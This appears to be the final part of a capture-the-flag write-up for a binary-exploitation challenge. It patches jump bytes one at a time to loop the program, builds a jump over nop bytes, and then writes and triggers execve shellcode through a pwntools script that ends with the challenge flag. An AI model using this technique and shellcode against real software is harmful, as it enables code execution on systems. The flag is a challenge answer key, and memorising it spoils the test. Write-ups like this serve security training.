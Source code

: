 ```
   0x6020dc:    nop
   0x6020dd:    nop
   0x6020de:    nop
   0x6020df:    sub    rsp,0x8
   0x6020e3:    jmp    0x400bf6
```

Our first goal will be to get more writes. We can do this by changing one byte at the last `jmp` instruction. After some trial and error with different offsets, we find that writing `0x28` at offset 36 will change the `jmp` instruction to this:

```
   0x6020e3:    jmp    0x400c10
```

This loops us back to the before the input function is called. Note that testing this on Ubuntu will likely cause a segfault due to stack alignment, but testing this on the remote reveals that the remote libc does not care about stack alignment and continues without a problem.

Eventually, the goal should be to write the shellcode where the nops currently are. However, writing this one byte at a time (and executing it each time) means that the program will encounter an invalid instruction when we are not done writing it yet. Therefore, we need a way to jump over the nops temporarily.

We would like to write `0xeb 0x21` which is `jmp 0x6020e3`, but we can not write the first byte or else it will become `0xeb 0x90` which will jump too far. To fix this, we will first write a `0x68` to offset 0 to turn the first instruction into a `push 0xffffffff90909090`. Then, we'll write the `0x21`, which makes the first instruction `push 0xffffffff90909021`. Lastly, we'll write the `0xeb` to get the `jmp 0x6020e3` we want.

Now, we simply write the shellcode one byte at a time. However, we must keep in mind that we will later "enable" this shellcode by changing the offset in our first jump instruction. This byte is at offset 1, and we can not write null bytes, so the lowest place we can start writing the shellcode is at offset 3. Once the shellcode is written, flipping byte 1 to a `0x01` enables the shellcode and we get a shell.

```python
sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
r.recvuntil("Counterspell")
r.sendline("3")
write(36, b"\x28") # loop
write(0, b"\x68") # nop
write(1, b"\x21") # jump
write(0, b"\xeb") # jump

for k, b in enumerate(sc):
    write(k+3, b'%c'%b)

write(1, b"\x01")
r.interactive()
```

## Flag
```
flag{pu7_0n_y0ur_m1rr0r_5h4d35_4nd_t4k3_a_b0w_5p3llc0d3r}
```
